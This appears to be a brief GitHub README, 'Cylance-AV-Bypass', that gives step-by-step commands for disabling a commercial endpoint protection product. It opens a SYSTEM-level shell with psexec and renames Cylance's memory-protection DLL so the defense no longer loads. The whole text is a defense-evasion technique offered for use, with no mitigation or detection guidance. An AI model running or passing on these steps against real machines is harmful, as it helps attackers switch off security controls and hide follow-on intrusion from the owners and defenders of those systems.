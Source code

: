 # Cylance-AV-Bypass
If you have access as Elevated Privs on system, you can bypass Cylance AV by renaming the cyMemDef64.dll for x64 and or cyMemDef.dll for 32bit.
1) Open up command prompt as NT System by running psexec.exe -i -s %SystemRoot%\system32\cmd.exe
2) Run move "C:\Program Files\Cylance\Desktop\cyMemDef64.dll" "C:\Program Files\Cylance\Desktop\cyMemDef64.dll.bak"
3) You can no bypass Cylance Memory protection. 
